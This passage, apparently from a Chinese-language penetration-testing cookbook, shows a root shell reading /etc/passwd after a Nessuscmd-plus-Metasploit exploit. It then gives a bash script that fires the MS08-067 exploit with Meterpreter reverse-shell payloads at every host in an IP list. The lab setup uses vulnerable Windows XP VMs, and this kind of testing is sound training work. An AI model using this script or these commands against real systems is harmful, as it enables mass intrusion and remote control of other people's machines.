 ```
root 
cat /etc/passwd 
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/bin/sh 
bin:x:2:2:bin:/bin:/bin/sh 
sys:x:3:3:sys:/dev:/bin/sh 
sync:x:4:65534:sync:/bin:/bin/sync 
                            **{TRUNCATED}** 
```

因为 Nessuscmd 的输出被重定向到临时文件，而不是使用集成的输出函数，所以没有脚本返回的输出来表明扫描成功，除了一个字符串用于指示系统看起来存在 Metasploit 试图利用的漏洞。 一旦脚本执行完毕，将在目标系统上返回具有`root`权限的交互式 shell。 为了演示这一点，我们使用了`whoami`和`cat`命令。

### 工作原理

Nessuscmd 是 Nessus 漏洞扫描器中包含的命令行工具。 此工具可用于通过直接从终端执行目标扫描，来扫描和评估不同插件的结果。 因为该工具（如 MSFCLI）可以轻易从 bash 终端调用，所以我们很容易构建一个脚本，将两个任务串联到一起，将漏洞扫描与利用相结合。

## 8.5 使用反向 Shell 载荷的多线程 MSF 漏洞利用

使用 Metasploit 框架执行大型渗透测试的一个困难，是每个利用必须按顺序单独执行。 如果你想确认大量系统中单个漏洞的可利用性，单独利用每个漏洞的任务可能变得乏味。 幸运的是，通过结合 MSFCLI 和 bash 脚本的功能，可以通过执行单个脚本，轻易在多个系统上同时执行攻击。 该秘籍演示了如何使用 bash 在多个系统中利用单个漏洞，并为每个系统打开一个 Meterpreter shell。

### 准备

要使用此秘籍中演示的脚本，你需要访问多个系统，每个系统都具有可使用 Metasploit 利用的相同漏洞。 提供的示例复制了运行 Windows XP 漏洞版本的 VM，来生成 MS08-067 漏洞的三个实例。 有关设置 Windows 系统的更多信息，请参阅本书第一章中的“安装 Windows Server”秘籍。 此外，本节还需要使用文本编辑器（如 VIM 或 Nano）将脚本写入文件系统。 有关编写脚本的更多信息，请参阅本书第一章的“使用文本编辑器（VIM 和 Nano）”秘籍。

### 操作步骤

下面的示例演示了如何使用 bash 脚本同时利用单个漏洞的多个实例。 特别是，此脚本可用于通过引用 IP 地址的输入列表来利用 MS08-067 NetAPI 漏洞的多个实例：

```
#!/bin/bash
if [ ! $1 ]; then echo "Usage: #./script <host file> <LHOST>"; 
exit; fi

iplist=$1 
lhost=$2

i=4444 
for ip in $(cat $iplist) 
do   
    gnome-terminal -x msfcli exploit/windows/smb/ms08_067_netapi 
    PAYLOAD=windows/meterpreter/reverse_tcp 
    RHOST=$ip LHOST=$lhost LPORT=$i E   
    echo "Exploiting $ip and establishing reverse connection on local port $i" 
i=$(($i+1)) 
done 
```
